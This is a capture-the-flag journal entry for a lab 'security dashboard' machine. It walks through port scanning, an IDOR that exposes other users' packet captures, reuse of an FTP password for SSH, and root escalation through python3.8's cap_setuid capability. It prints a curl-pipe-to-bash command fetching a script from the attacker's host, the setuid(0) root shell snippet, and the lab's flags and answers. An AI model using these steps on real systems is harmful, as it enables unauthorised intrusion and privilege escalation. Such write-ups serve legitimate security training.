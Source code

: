 # Security Dashboard CTF Journal Entry

### Challenge Rating: Medium

**Challenge:**  
Target is a security dashboard web app that includes features like security snapshots (PCAPs), IP and network status, and user activity. The machine tests reconnaissance, web enumeration, IDOR (Insecure Direct Object Reference), network traffic analysis (PCAP/FTP), credential reuse, and Linux privilege escalation via binary capabilities.

**Skills:**  
- Network scanning (`nmap`, `rustscan`)  
- Web enumeration (`feroxbuster`, `dirb`)  
- Source code / HTML inspection (viewing page source, `robots.txt`)  
- Identifying and abusing IDORs (Insecure Direct Object References)  
- PCAP analysis (Wireshark) to extract credentials from application snapshots  
- Credential reuse (FTP → SSH)  
- Local enumeration and privilege escalation with `linPEAS`  
- Exploiting file capabilities (cap_setuid) using Python to gain root

**Notes:**  
- Target IP: `10.10.10.245`  
- Initial scans: `nmap` and `rustscan` → ports open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**.  
  - FTP: `vsftpd 3.0.3`  
  - SSH: `OpenSSH 8.2p1`  
  - Webserver: Gunicorn (possible HTTP Request Smuggling via Transfer-Encoding headers — noted but not exploited here)

- Visited the web app as user *Nathan*. Dashboard shows security events, failed logins, and port scans.  
- Hamburger menu has: Security Snapshot (5s PCAP + analysis), IP Config, Network Status.  
- Viewing page source revealed references to people named **Rashed** and **Ratul Hamba**; `robots.txt` gave nothing useful.

- Used `feroxbuster` / `dirb` to enumerate paths (found nothing new beyond known endpoints).  
- Discovered an **IDOR** in Security Snapshot URLs: security snapshot redirect uses `/[something]/[id]`.  
  - Question 2 answer: `data` (the `[something]` in the path is `data`)  
  - By changing the ID you can view other users' snapshots (Question 3: **yes** — can iterate IDs 0..10)

- Inspecting PCAP ID 40 in Wireshark (source `192.168.196.1` → dest `192.168.196.16`) revealed an FTP credential:  
  - `Buck3tH4TF0RM3!` — used to log into SSH as Nathan.

**Answers to challenge questions:**  
1. How many ports are open? **3**  
2. After running a "Security Snapshot", the redirect path uses what string for [something]? **`data`**  
3. Are you able to see other users' scans? **Yes** (IDOR; can iterate 0..10)  
4. What is the ID of the PCAP file that contains sensitive data? **0**  
5. Which application layer protocol in the pcap file can the sensitive data be found in? **FTP**  
6. We've collected Nathan's FTP password. On what other service does this password work? **SSH**  
7. user flag (from Nathan's account): **`35eaae15f1ef0f055e3b983eae63c5aa`**  
8. What is the full path to the binary on this machine that has special capabilities that can be abused to obtain root privileges? **`/usr/bin/python3.8`**

**Privilege escalation (linPEAS & capabilities):**  
- Setup and run `linpeas` by hosting it locally and `curl`ing it to the target:  
  ```bash
  # on attack box
  sudo python3 -m http.server 80

  # on target
  curl http://<OurIP>/linpeas.sh | bash
  ```
- linPEAS highlighted a binary with capabilities: `/usr/bin/python3.8` has `cap_setuid,cap_net_bind_service+eip`.  
  - `cap_setuid` allows changing UID (can set to 0/root).  
  - `cap_net_bind_service` allows binding privileged ports (<1024).  
- Abuse: start the python interpreter and escalate UID:
  ```python
  import os
  os.setuid(0)
  os.system("/bin/bash")
  ```
  Result: spawned shell as **root**.

**Root flag:**  
- Root flag found: **`f77870641aea641726ee29ee9879a5e4`**

**Takeaways:**  
- IDORs are low-hanging fruit — always test incrementing IDs and object identifiers.  
- PCAP snapshots in web apps are gold for leaking credentials — always inspect network captures (Wireshark).  
- Credential reuse across services (FTP → SSH) is a common real-world misconfiguration to abuse.  
- linPEAS saves time but always manually verify and understand findings (capabilities, SUIDs, cron jobs).  
- File capabilities (`cap_setuid`) can be as dangerous as setuid binaries if abused — never assume only SUIDs matter.

**Commands / tools referenced:**  
```bash
nmap -sC -sV -oN nmap_initial 10.10.10.245
rustscan -a 10.10.10.245 -r 1-65535
feroxbuster -u http://10.10.10.245 -w /usr/share/wordlists/...
dirb http://10.10.10.245 /usr/share/wordlists/...
ssh nathan@10.10.10.245 -p 22
sudo python3 -m http.server 80
curl http://<OurIP>/linpeas.sh | bash
# escalate inside python:
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
## Original Notes:

<details>
ip:  10.10.10.245

we run nmap and rustscan

while they run we try the website. The site is a seucirty dashboard, logged in as a man named Nathan, on here we see security events, failed login attempts, and port scans (unique IPs).

the hamburger menu has a securit snapshot (5 second PCAP + anaysis), ip config, and network status

when we view the main page source, we see that they are using an outdate browser, and to update bia browsehappy.com

robots.txt did nothing

rustscan and nmap says that ports 22/tcp, 21/tcp and 80/tcp are open

port 21 is open ftp with vsftpd 3.0.3
port 22 ssh openSSH 8.2p1

couldn't find an exploit I want to use, the source didn't seem to have any info about passwords
we do see in the source people named Rashed and Ratul Hamba

using dirb to find urls / used feroxbuster too

the website is Gunicorn, looking for exploit. explot-db doens't have anything but myF5 does, it states:
Gunicorn  fails to properly validate Transfer-Encoding headers, leading to HTTP  Request Smuggling (HRS) vulnerabilities. By crafting requests with  conflicting Transfer-Encoding headers, attackers can bypass security  restrictions and access restricted endpoints. This issue is due to  Gunicorn's handling of Transfer-Encoding headers, where it incorrectly  processes requests with multiple, conflicting Transfer-Encoding headers,  treating them as chunked regardless of the final encoding specified.  This vulnerability allows for a range of attacks including cache  poisoning, session manipulation, and data exposure.</span></span></body></html>

so, let's see what we cna do here.bv

feroxbuster found what we already knew
so did dirb

i forgot, to look at the damn questions.

Question 1) how many ports are open : 3

2) After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]? :: answer = ‘data’

3) are you able to see other users scans?  yes, we can edit the url and go to data 0, 1, etc, up to our latest of 10

when we look at it in wireshark we see that no.40 with source ip of 192.168.196.1 and destination of 192.168.196.16, we see a password of "Buck3tH4TF0RM3!"
this allowed us to log into ssh
in the ssh, user.txt is a flag of “35eaae15f1ef0f055e3b983eae63c5aa”
4) What is the ID of the PCAP file that contains sensative data?  0

we have a IDOR: Insecure Direct Object Reference (IDOR) vulnerability is a type of broken access control where an application uses user-supplied input to directly access internal objects (like database records or files) without performing sufficient access control or authorization checks. Attackers can manipulate these direct references, such as changing a user ID or file name in a URL


5)  Which application layer protocol in the pcap file can the sensetive data be found in? FTP
it's ftp because we can look at hte wireshark protocol and see it's under ftp

6)We've managed to collect nathan's FTP password. On what other service does this password work? ssh

7) user flag

8) What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

out next task involves using linpeas, so to use linpeas we need to use the following script : 

we go to our linpeas dir, and run "sudo python3 -m http.server 80" - this opens the server for us to then use the command we need to run linpeas on the target machine

curl http://<OurIP>/linpeas.sh | bash

linpeas is said to be one of thsoe thigns that makes you look smarter than you are, so we need to really understand what it does. First off, linpeas is going to look for weaknesses, misconfigurations, etc. a defintion i found is:

linPEAS (part of the PEASS-ng suite) is an automated Linux enumeration script that searches a host for common misconfigurations, weak permissions, credentials, and other local privilege-escalation paths. It doesn’t “exploit” anything by default — it surfaces potential vectors (SUIDs, writable files, misconfigured services, cron jobs, weak sudo rules, exposed secrets, docker sockets, etc.) so you can investigate manually. Source & project page: PEASS-ng / linPEAS. 

bang! we're in. Linpeas is running. we used curl to get the info from our pc, and piped it into bash using | bash to run it

so , looking through the linpeas, i see we have Pkexec open, maybe try that, it allows us to run a command as anotehr user, maybe root?

besides that we have files with capabilites, and we see that python3.8 = cap_setuid, cap_net_bind_service+eip. It's highlighted yellow, so we know it's odd. doing some digging we see that python normally runs files without capabilities, and a pythong interpreter with cap_setuid + effective can be abused by local users to escalate privileges or bypass restrictions

don't try using pkexec and failing to log in, it reports the failure. fun times

we learned that the python program can escalate privilegas because it as authoritity to use sudo. the python binary has been granted special capabiulites. this will allow malicious scripts to be ran that normally require root. cap_setuid is a powerful capabiltiy that allows ap rocess to make arbitary chagnes to hte User ID UID including chaning a user to root (WOOT WOOT! Our way in!). an acceter could run a simple python script containg os.setuid(0) to gain full root
cap_net_bind_service+eip grants the ability to bind prilveged ports (any below 1024). the suffix of eip indicates that a capaility is et to effectivce, inherited and permitted. Thus allowing python web server to run on sntadard porst like 80 or 443. 
running /usr/bin/python3.8 we open python. Inside python we use:
import os
os.setuid(0)
os.system("/bin/bash")

import improts the os capabilites
we set our id
os.system("/bin/bash") opens a new shell as the id we made, so root!!!


9) Submit the flag located in root's home directory.  -- /usr/bin/python3.8
10) Submit the flag located in root's home directory. -- found teh root flag under root!
“f77870641aea641726ee29ee9879a5e4”
</details>
